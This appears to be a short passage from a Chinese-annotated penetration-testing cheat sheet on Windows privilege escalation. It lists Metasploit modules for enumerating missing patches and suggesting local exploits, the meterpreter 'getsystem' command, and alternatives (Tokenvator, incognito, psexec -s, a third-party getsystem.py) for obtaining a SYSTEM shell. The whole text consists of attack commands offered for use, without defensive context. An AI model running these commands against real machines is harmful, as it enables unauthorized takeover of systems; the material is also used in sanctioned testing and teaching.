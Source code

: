 	发现补丁
	>use post/windows/gather/enum_patches
	列举可用EXP
	>use post/multi/recon/local_exploit_suggester
 ##### getsystem
  	meterpreter> getsystem 
 ##### getsystem替代者
  	>Tokenvator.exe getsystem cmd.exe 
	>incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe 
	>psexec -s -i cmd.exe 
	>python getsystem.py # from https://github.com/sailay1996/tokenx_privEsc